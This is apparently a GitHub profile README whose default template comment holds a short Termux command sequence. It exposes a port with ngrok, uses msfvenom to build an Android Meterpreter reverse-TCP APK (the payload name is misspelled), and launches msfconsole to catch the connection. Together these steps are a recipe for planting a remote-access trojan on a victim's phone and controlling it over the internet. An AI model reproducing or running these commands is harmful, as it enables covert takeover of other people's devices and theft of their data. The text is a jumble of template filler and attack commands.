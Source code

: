 ### Hi there 👋

<!--
**mrsivaji/mrsivaji** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:


apt update && apt upgrade -y
Termux-setup-storage -y
ls
./ngrok tcp 1985
ifconfig
clear

msfvenom -p android/meterpeter/reverse_tcp LHOST= LPORT=1985 -o/sdcard/apkname.apk
msfconsole
